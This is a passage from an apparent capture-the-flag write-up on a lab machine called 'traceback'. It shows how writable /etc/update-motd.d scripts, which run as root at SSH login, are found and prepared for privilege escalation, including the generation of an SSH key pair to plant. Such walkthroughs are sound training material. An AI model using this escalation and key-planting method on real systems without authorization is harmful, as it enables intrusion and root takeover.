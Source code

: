 After letting pspy run for a while, we can see that root backups all files in `/var/backups/.update-motd.d/` to `/etc/update-motd.d` regularly.

Let us check out both the `/var/backups/.update-motd.d/` and the `/etc/update-motd.d` folder.

```bash
sysadmin@traceback:/tmp$ ls -lh /var/backups/.update-motd.d/
total 24K
-rwxr-xr-x 1 root root  981 Aug 25  2019 00-header
-rwxr-xr-x 1 root root  982 Aug 27  2019 10-help-text
-rwxr-xr-x 1 root root 4.2K Aug 25  2019 50-motd-news
-rwxr-xr-x 1 root root  604 Aug 25  2019 80-esm
-rwxr-xr-x 1 root root  299 Aug 25  2019 91-release-upgrade

sysadmin@traceback:/tmp$ ls -lh /etc/update-motd.d/
total 24K
-rwxrwxr-x 1 root sysadmin  981 Jul 29 08:45 00-header
-rwxrwxr-x 1 root sysadmin  982 Jul 29 08:45 10-help-text
-rwxrwxr-x 1 root sysadmin 4.2K Jul 29 08:45 50-motd-news
-rwxrwxr-x 1 root sysadmin  604 Jul 29 08:45 80-esm
-rwxrwxr-x 1 root sysadmin  299 Jul 29 08:45 91-release-upgrade
```

We are allowed to write to the `/etc/update-motd.d/` directory as the user `sysadmin`.

#### Enumeration of /etc/update-motd.d

As we have write-permissions over the `/etc/update-motd.d/`, we can define what is being run every time a user logs in. This way we can execute arbitrary commands as root.

In order to trigger the exploit we have to be able to login via ssh. Let us write our public to the .ssh directory of the sysadmin user.

```bash
root@darkness:~# ssh-keygen -f id_rsa -N ""
Generating public/private rsa key pair.
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:ibPlelLisYhCQ3NTaTq11/QPwWldOd3icOBGfy150DE root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|      .   . =.oE=|
|     =   . B.oo=*|
|    = . o o +++.=|
| o = . o o +  .+ |
|. o o + S   o    |
| o    o=.    .   |
|. .. o.=.        |
|. . . +..        |
| .    .o         |
+----[SHA256]-----+
root@darkness:~# cat id_rsa.pub 
ssh-rsa AAAAB[...]LVi38= root@darkness
```

